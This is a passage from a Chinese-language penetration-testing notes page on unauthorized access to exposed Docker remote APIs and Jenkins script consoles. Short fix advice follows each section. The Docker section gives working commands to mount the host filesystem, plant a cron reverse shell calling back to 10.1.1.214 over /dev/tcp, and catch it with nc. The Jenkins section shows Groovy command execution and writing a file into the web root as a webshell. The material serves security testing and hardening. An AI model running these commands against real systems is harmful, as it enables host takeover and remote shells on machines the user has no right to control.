 2、修复建议

- 添加认证
- 限制IP访问

## Docker未授权访问

> docker remote api可以执行docker命令，docker守护进程监听在0.0.0.0，可直接调用API来操作docker

1、验证

```bash
docker -H tcp://10.1.1.211:2375 version

#列出容器信息
curl http://<target>:2375/containers/json
```

2、漏洞利用，反弹宿主机shell

新运行一个容器，挂载点设置为服务器的根目录挂载至/mnt目录下。

```bash
sudo docker -H tcp://10.1.1.211:2375 run -it -v /:/mnt nginx:latest /bin/bash
```

在容器内执行命令，将反弹shell的脚本写入到/var/spool/cron/root

```bash
echo '* * * * * /bin/bash -i >& /dev/tcp/10.1.1.214/1234 0>&1' >> /mnt/var/spool/cron/crontabs/root
```

本地监听端口，获取宿主机shell

```
nc -lvp 1234
```

3、修复建议

- 对2375端口做访问控制

## Jenkins未授权访问

1、访问`http://www.xxx.com:8080/manage`

2、点击脚本命令行

```bash
println "whoami".execute().text
```

3、漏洞利用，写入webshell

```bash
new File ("/var/www/html/shell.php").write('<?php phpinfo(); ?>');
```

4、修复建议

- 升级版本
- 添加认证、设置强密码复杂度及账号锁定
- 避免把Jenkins直接暴露在公网
